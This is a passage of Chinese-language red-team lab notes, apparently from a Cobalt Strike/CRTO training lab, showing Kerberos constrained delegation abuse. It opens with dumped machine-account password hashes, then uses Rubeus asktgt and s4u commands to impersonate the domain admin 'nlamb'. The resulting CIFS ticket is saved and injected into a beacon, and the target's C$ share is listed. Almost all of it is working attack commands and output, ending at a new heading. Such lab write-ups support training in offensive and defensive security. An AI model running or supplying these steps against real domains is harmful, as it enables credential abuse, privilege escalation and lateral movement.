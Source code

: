 [...snip...]
       aes256_hmac       babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
       rc4_hmac_nt       6df89604703104ab6e938aee1d23541b

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap

[*] Action: Ask TGT

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[!] Pre-Authentication required!
[!]	AES256 Salt: DEV.CYBERBOTIC.IOhostsrv-2.dev.cyberbotic.io
[*] Using aes256_cts_hmac_sha1 hash: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\srv-2$'
[*] Using domain controller: 10.10.17.71:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFLD [...snip...] MuSU8=
```


## 使用 TGT，执行 S4U 请求以获得 CIFS 的可用 TGS

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /user:srv-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap
```

参数解释
```
/impersonateuser is the user we want to impersonate. nlamb is a domain admin but you want to ensure this user has local admin access to the target (WKSTN-2).
/msdsspn is the service principal name that SRV-2 is allowed to delegate to.
/user is the principal allowed to perform the delegation.
/ticket is the TGT for /user.
```

把上面命令保存成CIFS的票据

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\cifs.kirbi", [System.Convert]::FromBase64String("doIGWD[...snip...]MuaW8="))
```

载入票据
```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cifs.kirbi
```

访问文件系统,这里切记使用完整的计算机名称
```
beacon> ls \\wkstn-2.dev.cyberbotic.io\c$
```

否则会报1326
```
beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 54 bytes
[-] could not open \\wkstn-2\c$\*: 1326
```

# Alternate Service Name
```